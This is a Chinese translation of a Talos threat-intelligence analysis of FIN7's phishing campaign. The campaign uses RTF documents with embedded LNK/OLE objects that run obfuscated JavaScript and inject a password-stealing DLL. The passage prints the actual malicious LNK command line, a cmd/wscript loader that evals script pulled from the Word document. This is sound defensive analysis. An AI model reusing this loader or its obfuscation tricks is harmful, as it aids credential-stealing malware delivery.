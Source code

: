 > 原文链接: https://www.anquanke.com//post/id/86970 


# 【技术分享】深入解析FIN7黑客组织最新攻击技术


                                阅读量   
                                **90036**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：talosintelligence.com
                                <br>原文地址：[http://blog.talosintelligence.com/2017/09/fin7-stealer.html](http://blog.talosintelligence.com/2017/09/fin7-stealer.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t014020a7dc5381337f.png)](https://p4.ssl.qhimg.com/t014020a7dc5381337f.png)

****

译者：[shan66](http://bobao.360.cn/member/contribute?uid=2522399780)

预估稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**摘要**

在这篇文章中，我们将详细介绍一个新近发现的RTF文件系列，FIN7黑客组织将这些文档用于网络钓鱼活动，去执行一系列脚本语言代码，其中涉及多种用于绕过传统安全防护机制的混淆技术及其他高级技术。该文档包含诱使用户点击嵌入式对象的消息，而这些嵌入式对象中含有一些恶意脚本，一旦被执行，系统就会被植入用于信息窃取的恶意软件。然后，这些恶意软件就会从流行的浏览器和邮件客户端窃取密码，并发送到攻击者可访问的远程节点。在本文中，我们将对这些高级攻击技术进行详细的探讨。

 

**简介**

2017年6月9日，Morphisec实验室发布了一篇博客文章，详细介绍了一种使用包含嵌入式**JavaScript OLE对象**的RTF文档的新型感染方式。当它被用户单击后，就会启动由JavaScript组成的感染链和最终的**shellcode**的payload，然后通过DNS从远程C&amp;C服务器加载更多的shellcode。在这一篇文章中，我们将揭示这个新的文档变体的细节，该文档使用了一个**LNK**嵌入式OLE对象，它从文档对象中提取出一个**JavaScript bot**，并使用PowerShell将一个“窃贼DLL”注入内存中。这些细节，将有助于洞察诸如FIN7等黑客组织目前所采用的攻击方法，这些组件正在不断演变，以规避安全检测。

**<br>**

**感染方式**

我们遇到的dropper变体通过一个LNK文件，利用来自word文档对象中的JavaScript链的开头部分来执行wscript.exe。

```
C:WindowsSystem32cmd.exe......WindowsSystem32cmd.exe /C set x=wsc@ript /e:js@cript %HOMEPATH%md5.txt &amp; echo try`{`w=GetObject("","Wor"+"d.Application");this[String.fromCharCode(101)+'va'+'l'](w.ActiveDocument.Shapes(1).TextFrame.TextRange.Text);`}`catch(e)`{``}`; &gt;%HOMEPATH%md5.txt &amp; echo %x:@=%|cmd
```

